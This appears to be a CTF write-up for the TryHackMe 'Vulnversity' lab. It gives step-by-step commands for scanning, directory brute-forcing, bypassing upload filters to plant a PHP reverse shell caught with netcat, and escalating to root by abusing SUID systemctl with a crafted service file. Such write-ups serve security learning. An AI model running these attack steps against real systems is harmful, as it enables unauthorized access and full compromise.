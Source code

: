 ```yaml
---
title: Writeup for TryHackMe room - Vulnversity
author: 4n3i5v74
date: 2021-03-26 00:00:00 +0530
categories: [CTF, TryHackMe]
tags: [tryhackme, writeup, ctf, web]
pin: true
---
```


## [Vulnversity](https://tryhackme.com/room/vulnversity){:target="_blank"}

This room is about performing recon and web attacks.


## Task 2 - Reconnaisance

Using `nmap` as below, all info can be gathered for the task.
{% capture code %}nmap -Pn -T4 -sV --reason --open <ip>{% endcapture %} {% include code.html code=code lang="bash"%}


## Task 3 - Locating directories using Gobuster

Using `gobuster` and `dirb` wordlists, find the child directories under web root.
{% capture code %}gobuster dir -u http://<ip>:3333 -w /usr/share/wordlists/dirb/common.txt -q{% endcapture %} {% include code.html code=code lang="bash"%}

Use either `curl` or browser to load the pages from `gobuster` result and see if anything contains `upload` logic.
{% capture code %}curl http://<ip>:3333/<dir>/{% endcapture %} {% include code.html code=code lang="bash"%}


## Task 4 - Compromise the webserver

This task can be done using `burpsuite`.
- Open `firefox` and set proxy `127.0.0.1:8080`
- Open `burpsuite` and turn `intercept on`
- Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload a file
- In `burpsuite`, in `proxy` tab, select the content and `send to intruder`
- In `burpsuite`, in `intruder` tab, and in `positions` tab, select `sniper` attack type, `clear §`, and `add §` to filename extension
- In `burpsuite`, in `intruder` tab, and in `payloads` tab, load `/usr/share/wordlists/SecLists/Fuzzing/extensions-most-common.fuzz.txt` and `start attack`
- Check the results for different response size to find which extensions are not blocked
- Quit `burpsuite` and reverse proxy setting in `firefox`

Download the [php reverse shell payload](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){:target="_blank"},and copy the file under extension `.phtml`. Edit the file and and change ip to local machine ip.

Start a netcat session to listen for reverse proxy connection.
{% capture code %}nc -lnvp 1234{% endcapture %} {% include code.html code=code lang="bash"%}

Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload payload file, and navigate to the url `http://<ip>:3333/<dir>/uploads/php-reverse-shell.phtml`. A reverse shell should have been created in the `netcat` listening terminal.

The `user` managing the web server and the `flag` can be retrieved from the shell.


## Task 5 - Privilege Escalation

Now the webserver is compromised and a shell access is gained. This task shows how to gain privilege escalation using `SUID`.

Find the commands which has `SUID` set. This allows normal user to gain root access temporarily. Any of the below command can be used to find the binaries allowing `SUID`.
{% capture code %}find / -perm /4000 2>&1 | grep -v “Permission denied”{% endcapture %} {% include code.html code=code lang="bash"%}
{% capture code %}find / -user root -perm -4000 -exec ls -ldb {} \;{% endcapture %} {% include code.html code=code lang="bash"%}

Since the binary found is `/bin/systemctl`, create a temporary `service file`, and run it, to gain `SUID` access.
{% capture code %}eop=$(mktemp).service{% endcapture %} {% include code.html code=code lang="bash"%}

{% capture code %}echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop{% endcapture %} {% include code.html code=code lang="bash"%}

{% capture code %}/bin/systemctl link $eop{% endcapture %} {% include code.html code=code lang="bash"%}

{% capture code %}/bin/systemctl enable --now $eop{% endcapture %} {% include code.html code=code lang="bash"%}


Capture the flag from the manipulated output file.
{% capture code %}cat /tmp/output{% endcapture %} {% include code.html code=code lang="bash"%}

